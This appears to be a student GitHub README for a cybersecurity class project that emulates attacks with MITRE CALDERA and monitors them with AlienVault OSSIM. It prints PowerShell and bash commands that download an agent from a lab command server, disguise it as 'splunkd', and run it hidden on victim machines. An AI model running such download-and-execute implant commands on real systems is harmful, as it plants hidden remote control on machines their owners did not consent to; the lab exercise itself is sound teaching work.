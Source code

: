 # Cybersecurity
This repository will contain our final project for our cybersecurity class. We will show the command, and mostly the screenshot and the report of our overall project.


Our final project title is:



In this project, we utilize MITRE CALDERA and Alien Vault OSSIM.


Code below show the powershell script that we would need to run on an elevated privilage (run as administrator)
```powershell
$server="http://192.168.0.142:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

Below is the code that we run on linux victim machine
```bash
server="http://192.168.0.142:8888/";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```